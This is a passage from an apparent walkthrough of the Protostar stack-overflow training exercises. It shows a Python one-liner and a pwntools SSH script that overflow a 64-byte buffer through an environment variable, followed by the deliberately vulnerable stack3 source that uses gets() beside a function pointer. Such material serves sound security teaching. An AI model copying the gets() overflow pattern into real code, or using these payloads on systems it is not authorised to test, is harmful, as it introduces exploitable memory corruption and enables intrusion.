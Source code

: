 <br/>

So now let's set the enviorment variable GREENIE to 0x0d0a0d0a
```bash
$ export GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
$ ./stack2
   you have correctly modified the variable
```

<br/>

Now let's script this
```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)

p = s.run('sh', env= {'GREENIE' : 'a'*64 + '\x0a\x0d\x0a\x0d'})

p.sendline('/opt/protostar/bin/stack2')
p.interactive()
```

<br/>

## Stack 3

Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
